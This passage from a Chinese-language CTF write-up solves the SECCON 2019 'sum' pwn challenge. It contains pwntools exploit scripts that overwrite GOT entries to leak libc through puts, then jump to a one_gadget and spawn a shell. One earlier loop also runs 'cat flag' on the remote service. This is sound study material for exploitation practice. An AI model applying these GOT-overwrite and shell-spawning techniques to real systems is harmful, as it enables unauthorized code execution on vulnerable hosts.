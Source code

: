 ```python
        p.sendline(payload2)

        sleep(0.1)
        p.sendline("cat flag")
        a = p.recvline()
        log.info(a)
        if 'flag' in a:
        	p.interactive()

    except:
        p.close()
```

running tql

在ctftime看了一波wp后学了一种巧妙的方法

https://syedfarazabrar.com/2019-10-20-secconctf-2019-sum/

利用`setvbuf(_bss_start, 0LL, 2, 0LL)`泄露地址

![9](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/9.jpg)

把setvbuf_got写为puts_plt

把bss_start写为要泄露的目标

执行`setvbuf(_bss_start, 0LL, 2, 0LL)`，就可以泄露地址

```python
from pwn import *
r = process('./sum')
#r = remote('sum.chal.seccon.jp', 10001)

elf = ELF('./sum')
libc = ELF('./libc.so')


def write64(addr, value):
    r.sendlineafter('2 3 4 0\n', '-1  -1 2 -{} {} {}'.format(addr, value, addr))

write64(elf.got['exit'], elf.symbols['_start'])
write64(elf.got['setvbuf'], elf.plt['puts'])
write64(elf.symbols['__bss_start'], elf.got['puts'])

libc_base = u64(r.recv(6).ljust(8, '\x00')) - libc.symbols['puts']
log.success('libc:'+hex(libc_base))

write64(elf.got['__isoc99_scanf'], libc_base + 0x4f322)
r.interactive()
```



## Option-Cmd-U
